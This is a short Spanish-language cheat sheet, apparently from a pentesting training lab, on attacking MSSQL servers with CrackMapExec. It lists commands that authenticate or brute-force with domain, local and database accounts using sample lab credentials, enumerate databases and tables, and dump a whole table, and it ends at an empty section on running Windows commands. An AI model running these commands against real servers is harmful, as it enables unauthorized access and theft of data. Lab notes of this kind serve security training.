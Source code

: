 # BF

Hay 3 formas de probar autenticarse contra MSSQL:

1) Con usuario de dominio (por defecto)
2) Con usuario local
3) COn usuario de MSSQL

### Con usuario de dominio 
Hacemos la llamada con CME como viene

### Con usuario local

agregamos como domionio el "."

    crackmapexec mssql 10.129.203.121 -u julio grace -p Inlanefreight01! -d .

### Con usuario de MSSQL
Agregamos la flag: --local-auth

    crackmapexec mssql 10.129.203.121 -u julio grace  -p Inlanefreight01! --local-auth

## ¡¡Si el usuario dice pwnd! quiere decir que es DBA!!

# Footprinting

### Obtener DBs
    crackmapexec mssql 10.129.203.121 -u grace -p Inlanefreight01! -q "SELECT name FROM master.dbo.sysdatabases"

### Obtener nombres de las tablas

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT table_name from <db>.INFORMATION_SCHEMA.TABLES"

### Dumpear una tabla

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT * from [db].[dbo].<tabla>" 

### Ejecutar comandos de windows


